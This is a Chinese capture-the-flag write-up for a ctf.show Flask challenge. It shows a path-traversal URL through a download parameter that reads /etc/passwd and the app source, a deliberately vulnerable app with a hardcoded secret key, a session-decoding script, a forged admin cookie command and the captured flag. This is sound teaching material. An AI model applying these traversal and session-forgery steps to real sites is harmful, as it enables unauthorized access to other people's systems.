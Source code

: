 # 抽老婆

[题目地址](https://ctf.show/challenges#%E6%8A%BD%E8%80%81%E5%A9%86-3870)

这个比赛真的是我见过起名起的最有创意的。

进入网站，没啥东西，每次换老婆都有新的图片。一言不合看源码。

```html

<!DOCTYPE html>
<html>
<head>
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1">
  <title>CTFshow-抽老婆</title>
  <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/layui/2.7.6/css/layui.css" integrity="sha512-SSF+OBDODWTSIqOivYBOyOKQ93PBDevipJEUEWtkUbTt4v34rmgPcCXcBMolxZIJcuobcdqmYJlonjUBEbOzNw==" crossorigin="anonymous" referrerpolicy="no-referrer" />
  <script src="https://cdnjs.cloudflare.com/ajax/libs/layui/2.7.6/layui.js" integrity="sha512-mIKH3M2bRlIyhG4tBEbJ8dn8t8JFlNJU2NXlJePgpQ72CK4jAYsZyCGFcASRGtPBbcAQhz67KTkA1Jw6Kizk9g==" crossorigin="anonymous" referrerpolicy="no-referrer"></script>
  <script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.6.1/jquery.min.js" integrity="sha512-aVKKRRi/Q/YV+4mjoKBsE4x3H+BkegoM/em46NNlCqNTmUYADjBbeNefNxYV7giUp0VxICtqdrbqU7iVaeZNXA==" crossorigin="anonymous" referrerpolicy="no-referrer"></script>
  <ul class="layui-nav" lay-filter="nav">
    <li class="layui-nav-item "><a href="/">项目简介</a></li>
    <li class="layui-nav-item layui-this"><a href="/getwifi">抽老婆</a></li>
  </ul>
</head>

<body>
  <div class="layui-container" >
  <fieldset class="layui-elem-field layui-field-title " style="margin-top: 30px;">
    <legend>当前老婆</legend>
  </fieldset>
 <center>
    <img src='/static/img/65bbb2052d3e71d5d8fa70b916895c69.jpg'>
 </center>
 </div>
  <div class="layui-container" >
    <center>
       <a class="layui-btn layui-btn-lg layui-btn-radius " href="/getwifi" style="width: 200px;">换老婆</a>
       <a class="layui-btn layui-btn-lg layui-btn-radius layui-btn-normal" href="/download?file=65bbb2052d3e71d5d8fa70b916895c69.jpg" style="width: 200px;">下载老婆</a><!-- 特意为了不会右键另存为的同学做了这个功能，我真的太温柔了 -->
    </center>
    </div>
</body>

<footer>
  <div class="layui-container">  
    <div class="layui-row" style="height: 500px;">
      <div class="layui-row" style="height: 200px;"><hr class="layui-bg-gray">
        <p style="padding-left: 40%;padding-top: 20px;">CTFshow出品 © 2022 ctfshow</p>
      </div>
    </div>
  </div>
</footer>

</html>
```

有个download界面。一下子就想到了任意文件下载，但是该下什么呢？随便输一个文件名试试。

- http://b9b99206-e833-478e-b2f1-0ff2e6c4131a.challenge.ctf.show/download?file=a

报错，出来了flask的debug界面。最开始以为这题是flask debug界面泄露漏洞，可以收集一些信息构造pin码打开shell，正好也有文件下载漏洞。结果我先是读了一个/etc/passwd，网卡地址的文件怎么也找不到。想直接读flag，果然给过滤了。那下载网站源码看看。

- http://b9b99206-e833-478e-b2f1-0ff2e6c4131a.challenge.ctf.show/download?file=../../../../../../../app/app.py

这个地址可以在报错界面找到。注意不是`/usr/local/lib/python3.8/site-packages/flask/app.py`这个地址，这是flask框架的源码，2500多行……

```python
# !/usr/bin/env python
# -*-coding:utf-8 -*-

"""
# File       : app.py
# Time       ：2022/11/07 09:16
# Author     ：g4_simon
# version    ：python 3.9.7
# Description：抽老婆，哇偶~
"""

from flask import *
import os
import random
from flag import flag

#初始化全局变量
app = Flask(__name__)
app.config['SECRET_KEY'] = 'tanji_is_A_boy_Yooooooooooooooooooooo!'

@app.route('/', methods=['GET'])
def index():  
    return render_template('index.html')


@app.route('/getwifi', methods=['GET'])
def getwifi():
    session['isadmin']=False
    wifi=random.choice(os.listdir('static/img'))
    session['current_wifi']=wifi
    return render_template('getwifi.html',wifi=wifi)



@app.route('/download', methods=['GET'])
def source(): 
    filename=request.args.get('file')
    if 'flag' in filename:
        return jsonify({"msg":"你想干什么？"})
    else:
        return send_file('static/img/'+filename,as_attachment=True)


@app.route('/secret_path_U_never_know',methods=['GET'])
def getflag():
    if session['isadmin']:
        return jsonify({"msg":flag})
    else:
        return jsonify({"msg":"你怎么知道这个路径的？不过还好我有身份验证"})



if __name__ == '__main__':
    app.run(host='0.0.0.0',port=80,debug=True)
```

如果session admin的值为True就能在/secret_path_U_never_know页面中看见flag。立刻想到[session伪造](https://cbatl.gitee.io/2020/11/15/Flask-session/)。session伪造的必要条件就是知道SECRET_KEY，好心的出题人已经在上面给了。那这题就没啥了。利用[脚本](https://github.com/noraj/flask-session-cookie-manager)解密session再加密。我用的是下面的脚本解密，那个仓库里的解密脚本不知道为啥不行。

```python
import zlib
from flask.sessions import session_json_serializer
from itsdangerous import base64_decode

SESSION="eyJjdXJyZW50X3dpZmkiOiI0ZmQ0OWNjZTZiMzQ3OTAxYmM4YTljNWExOTE1MjJmZS5qcGciLCJpc2FkbWluIjpmYWxzZX0.Y2_dHQ.B_sPOAbxEIMufAcu-b-05_SF4j4"
def decryption(payload):
    payload, sig = payload.rsplit(b'.', 1)
    payload, timestamp = payload.rsplit(b'.', 1)

    decompress = False
    if payload.startswith(b'.'):
        payload = payload[1:]
        decompress = True

    try:
        payload = base64_decode(payload)
    except Exception as e:
        raise Exception('Could not base64 decode the payload because of '
                        'an exception')

    if decompress:
        try:
            payload = zlib.decompress(payload)
        except Exception as e:
            raise Exception('Could not zlib decompress the payload before '
                            'decoding the payload')

    return session_json_serializer.loads(payload)


if __name__ == '__main__':
    print(decryption(SESSION.encode()))
```

- python3 session-decode.py
> {'current_wifi': '4fd49cce6b347901bc8a9c5a191522fe.jpg', 'isadmin': False}

把isadmin改成True再加密。

- python3 session-encode.py encode -s "tanji_is_A_boy_Yooooooooooooooooooooo\!" -t "{'current_wifi': '4fd49cce6b347901bc8a9c5a191522fe.jpg', 'isadmin': True}"
> eyJjdXJyZW50X3dpZmkiOiI0ZmQ0OWNjZTZiMzQ3OTAxYmM4YTljNWExOTE1MjJmZS5qcGciLCJpc2FkbWluIjp0cnVlfQ.Y2_jrQ.eSlrmiDo2ularIJZLfLkMyx8n8w

注意要转义感叹号。现在把得到的值放进session里，访问/secret_path_U_never_know，得到flag。

## Flag
> ctfshow{13cf46b1-08a0-4c6d-b9cc-d9c06abbc73d}